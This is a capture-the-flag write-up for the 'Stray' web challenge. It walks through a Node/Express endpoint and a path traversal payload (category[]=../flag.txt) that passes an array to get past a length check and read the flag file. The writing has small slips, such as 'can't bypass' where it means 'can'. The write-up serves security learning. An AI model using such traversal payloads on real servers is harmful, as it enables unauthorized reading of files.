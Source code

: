 # Stray
> Stuck on what to name your stray cat?

## About the Challenge
We got a source code (You can download the file [here](export.zip)) and also the website. Here is the preview of the website


[Image extracted text: ( >
C
stray challpwnohio
Weleome to the Cat Name
Examples
Generate male cat name
Generate female cat name]


If we press one of the links, it will generate a cat name


[Image extracted text: < 
C
stray challpwnoh io/cat?category-m
{"name
"Jasper"}]


## How to Solve?
Let's analyze `app.js`!

```js
import express from "express";
import path from "path";
import fs from "fs";

const app = express();

app.get("/cat", (req, res) => {
  let { category } = req.query;

  console.log(category);

  if (category.length == 1) {
    const filepath = path.resolve("./names/" + category);
    const lines = fs.readFileSync(filepath, "utf-8").split("\n");
    const name = lines[Math.floor(Math.random() * lines.length)];

    res.status(200);
    res.send({ name });
    return;
  }

  res.status(500);
  res.send({ error: "Unable to generate cat name" });
});

app.get("/", (_, res) => {
  res.status(200);
  res.sendFile(path.resolve("index.html"));
});

app.listen(process.env.PORT || 3000);
```

In `/cat` endpoint, this code is checking if the length of category is 1. If it is, it reads a file from a `m` directory, selects a random name from that file, and sends it as a response to the client with an HTTP status code of 200.

To read the flag, we need to input `../flag.txt` as the value for parameter category. However, we can't do that directly due to the code checking whether the length of our input is 1 or not.


[Image extracted text: 9
C
stray challpwnoh io/cat?category=
txt
{"error
Unable
to generate
cat
name
~fflag]


But we can't bypass that by providing an array instead of a string.

From:
```
cat?category=../flag.txt
```

To:
```
cat?category[]=../flag.txt
```

And here is the final payload I used to obtain the flag


[Image extracted text: 7
C
stray challpwnoh io/cat?categoryl] =
txt
{"name
"bctf{jAv4Scrlp7_15_
4_6r347_14n6u463}"}
"[flag:]


```
bctf{j4v45cr1p7_15_4_6r347_l4n6u463}
```
